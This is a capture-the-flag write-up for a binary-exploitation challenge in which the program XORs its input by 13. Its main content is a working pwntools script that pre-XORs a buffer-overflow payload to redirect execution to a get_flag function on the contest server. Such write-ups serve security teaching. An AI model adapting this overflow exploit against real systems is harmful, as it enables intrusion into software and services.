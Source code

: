# XOR
* **Event:** RobotApocalypseCTF (ISSS CTF 01-29-2021)
* **Problem Type:** Binary Exploitation

The binary is vulnerable to a standard buffer overflow, but it also xor's all input by 13. Since xor is reversible (i.e.
`a ^ b ^ b = a`) we can just xor our input by 13 to start with. Then, when the binary xors it by 13 again it will cancel
out and we will get our original payload. Besides that it's just a standard buffer overflow (check the writeups for
foreverCTF if you want more details on how to solve those)

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['konsole','-e']
#context.log_level = 'debug'
context.binary = './build/xor'

e = ELF('./build/xor')
rop = ROP('./build/xor')
if 'd' in sys.argv:
    p = gdb.debug('./build/xor')
elif 'r' in sys.argv:
    p = remote('ctf.isss.io', 5000)
else:
    p = process('./build/xor')

#payload = bytearray(cyclic(150))
payload = bytearray(flat({120: e.sym['get_flag']}))

for i in range(len(payload)):
    payload[i] ^= 13

p.recvline()
p.recvline()
p.sendline('150')
p.recvline()
p.sendline(bytes(payload))
p.recvline()
p.recvline()
p.interactive()
```
